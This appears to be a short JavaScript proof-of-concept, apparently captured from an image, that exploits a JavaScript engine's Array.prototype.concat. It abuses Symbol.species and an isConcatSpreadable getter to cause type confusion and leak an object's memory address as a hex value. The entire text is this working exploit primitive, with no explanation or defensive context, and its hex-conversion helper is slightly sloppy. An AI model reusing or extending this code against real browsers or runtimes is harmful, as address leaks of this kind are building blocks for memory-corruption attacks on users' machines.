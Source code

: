 
function convert(data){
    a = new ArrayBuffer(8);
    b = new Float64Array(a);
    c = new Uint8Array(a);
    b[0] = data;
    ret = 0
    for(i = 0; i<8; i++){
        ret += c[7-i].toString(16)
    }
    return ret;
}

function leak(target){
    var a1 = [];
    for (var i = 0; i < 0x100; i++) {
          a1[i] = i;
    }
    var a2 = [1234,1234];
    var c = new Function();

    c[Symbol.species] = function() {
        new_array = [99,99,99];

        return new_array;
    };
    a1.constructor = c;
    a2.__defineGetter__(Symbol.isConcatSpreadable, function () {
        new_array[0] = 4.2;
        a2[0] = target
        return true;
    });
    var res = a1.concat(a2);
    return convert(res[256]) ;
}
a = [1,2,3]
v = leak(a)
console.log(v)

